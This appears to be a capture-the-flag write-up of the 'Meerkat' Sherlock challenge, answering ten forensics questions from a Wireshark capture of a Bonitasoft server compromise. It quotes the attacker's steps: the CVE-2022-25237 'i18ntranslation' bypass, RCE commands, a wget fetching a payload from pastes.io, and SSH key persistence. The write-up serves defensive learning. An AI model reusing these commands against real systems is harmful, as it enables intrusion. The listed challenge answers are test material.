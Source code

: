 # Meerkat-Analysis-Report
By analyzing a Wireshark scan report, I solved 'Meerkat', a Sherlocks type problem, which is documented in this repository.

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/2ea41d92-134e-4803-b7d4-2c07fc2f8180)

Hare we download the zip file. After download we extract file with the given password.

### Task 1
We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

Starting with our .pcap file, we can pop that open in Wireshark and check the Endpoints table to get a feel for what IP addresses may be involved in whatever might have happened.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/a1583f37-cac5-49c1-9219-a9088f14fb3a)

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/5e01d71d-2a86-4b24-b16d-11cb010201d8)
Sorting by packets under the TCP table, we can see the local host 172.31.6.44 (which we can assume to be the business management platform or an endpoint within the company) is receiving a majority of its traffic on ports 37022, 8080, 61254, 61255, and 22. TCP 37022, 61254, and 61255 are not registered for any specific services, but 8080 is an HTTP alternative and 22 is for SSH. Based on this, we can reasonably assume we’re looking at a web server.

We can see additional, notable amounts of traffic from foreign hosts 54.144.148.213, 95.181.232.30, 138.199.59.221,156.146.62.213. TCP traffic to a web server in and of itself is not immediately suspicious, so we’ll just note this down for now.

Diving into the actual stream of packets, we’ll filter by tcp.port == 8080 && ip.dst == 172.31.6.44 to take a look at some of that inbound traffic.

Right out the gate, we see an HTTP request that gives us some information on our web server.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/cb2b84b4-4dd5-44d8-b415-f24e67c0983d)
“GET /bonita HTTP/1.1” is associated with the Bonitasoft Business Process Management Software. That tells us the platform the business chose to use and a starting point when hunting for potential exploited vulnerabilities.
### Task 1 ans: Bonitasoft

### Task 2
We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

Browsing through Wireshark some more, we can see several POST requests made to /bonita/loginservice all from the same IP address, 156.146.62.213, each within several seconds of each other.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/be06fea5-e5ee-46bf-b72e-650c9e91d76a)

Digging into the form items of each request, we find different usernames and passwords being submitted.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/d7fd3fff-8ee8-4381-8d74-c867af45abfd)
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/aae2ff5f-1fd8-4713-af89-a909193d3a73)

Based on all the traffic originating from the same IP address and the rate at which they’re being submitted, this is likely a brute force attack. Specifically, based on the usage of sets of credentials as opposed to testing multiple usernames with a single password at a time or vice versa, we can conclude this is a credential stuffing attack.
### Task 2 ans: Credential Stuffing

### Task 3
Does the vulnerability exploited have a CVE assigned - and if so, which one?

We can start searching for alerts that document this attack by searching for instances of 'Login' in our JSON file. It's a good thing we have a strong lead immediately.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/f3352485-42f5-45d9-8a70-d9343006bf36)
Investigating CVE-2022-25237, we found a critical vulnerability affecting Bonita Web 2021.2. This confirms that this is likely related to the POST requests we saw earlier.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/64d8cc5e-ed45-4cf1-9ae8-da3ea499bf80)
### Task 3 ans: CVE-2022–25237

### Task 4 
Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

The vulnerability works by adding 'i18ntranslation' in one of two variations to the end of a URL, which results in access to privileged API endpoints that could lead to remote code execution.
### Task 4 ans: i18ntranslation

### Task 5
How many combinations of usernames and passwords were used in the credential stuffing attack?

By using the 'http' filter in Wireshark, we were able to improve our understanding of the traffic that caused this attack.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/12fa167c-4d9f-4fb6-a324-b60c47d75e85)
We observed a flow of POST requests that were each followed by a 401 code, indicating that the credentials were invalid. A total of 56 unique sets of username-password combinations were utilized.
### Task 5 ans: 56

### Task 6
Which username and password combination was successful?

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/6abd759c-d504-4da2-86b9-58bbfa0a7a69)
The username'seb.broom@forela.co.uk' and password 'g0vernm3nt' are used to try to login and get HTTP code 204, which means that authentication was successful. A total of four calls are made to the Bonita API. The CVE we identified shows that these are the credentials that were successfully breached.
### Task 6 ans: seb.broom@forela.co.uk:g0vernm3nt

### Task 7
If any, which text sharing site did the attacker utilise?

Following the successful authentication, the attacker performs a POST request to upload a file entitled “rce_api_extension.zip”.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/6005c4a5-96a8-4985-af20-ccfa42effd31)
After doing some research, we discovered the zip file in a Github repository that contained the proof-of-concept created by Rhino Security Labs during the initial disclosure of the vulnerability to Bonitasoft. This would be the best confirmation that this attack is caused by CVE-2022-25233.
The zip file is further interacted with by a subsequent POST request to set it properly within the web server’s storage.
Immediately following this upload and setup, we encounter an especially troubling GET request to the server.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/fd3dfb86-a357-4092-8e7f-d6345c4fa428)

The 'cmd' parameter is set to 'whoami', a command that allows the attacker to identify the current user they are logged into. The server's response is encoded in JSON in the next HTTP packet, as usual.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/3942ccab-7325-4bb1-be90-7eade35ee188)

The attacker has been able to gain root access to the web server, essentially granting them complete control. The attacker removes the zip file to conceal evidence of compromise while enumerating the web server.
Continuing our investigation, the attacker resumes testing username-password combinations before returning to the successful set of credentials.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/b4a6c256-43b9-4724-9201-7a066f56a761)
It's interesting that the attacker's IP address changes from 156.146.62.213 to 138.199.59.221. It is possible that this is a result of them changing their VPN, connecting from a different network, or upgrading their system.

Regardless, we can assume this is the same attacker or at the least someone connected to the original attacker as they pick up with the same attack the original IP address was used within one minute of the end of the brute force attack. 
To log back in, they use the cracked credentials, upload rce_api_extension.zip again, set it up as before, and then run another set of commands through a GET request. This time, they execute “cat /etc/passwd” to enumerate the usernames of all users set up on the web server as well details on each account. 
Once more, they delete the zip file to cover up their tracks.

This is where something new happens. The attacker uploads the zip file again like they did previously and issues a command through a GET request, but this time the command is "wget https://pastes.io/raw/bx5gcr0et8".
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/264ab3d1-9d09-421c-a39b-4866ad331ad1)
The attacker is downloading something to the web server using the text sharing site “pastes.io”.
### Task 7 ans: pastes.io

### Task 8
Please provide the filename of the public key used by the attacker to gain persistence on our host.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/e428cd20-e122-432a-97f0-18ecd340f06a)
Before restarting the ssh service on the server, the attacker uploaded a bash script to the web server that downloads another text file from a different link and stores it in the authorized ssh RSA keys. 
This script file will be hashed to be added to EDRs and other security controls later to detect any further attempts to use it.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/369fda07-4d20-4acd-bc66-284aedfb8fbb)
We’ll go ahead and following the link to the other file used in the first script the attacker uploaded. Going to that webpage, we’re once again met with raw text.

![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/b3c133b0-6b8b-4840-92c4-8e08aaf04e66)
What’s happened is the attacker has successfully uploaded a known RSA key to the authorized ssh keys on the web server. Doing this enables them to connect to the web server over ssh using the matching private key, granting persistence.
We’ll hash this file as well to add to our filters.
![image](https://github.com/Mayukh-Ghara/Meerkat-Analysis-Report/assets/59330372/e146865a-169a-4eb9-9add-7f363b7c0c69)

### Task 8 ans: hffgra4unv

### Task 9
Can you confirmed the file modified by the attacker to gain persistence?

Reviewing the previous file we analyzed, we can see that the new SSH key was being append to the keys stored in /home/ubuntu/.ssh/authorized_keys.
### Task 9 ans: /home/ubuntu/.ssh/authorized_keys

### Task 10
Can you confirm the MITRE technique ID of this type of persistence mechanism?

We found that the attacker's actions corresponded with SSH Authorized Keys (T1098.004) under Account Manipulation in the Persistence column after investigating MITRE's ATT&CK Matrix.
### Task 10 ans: T1098.004

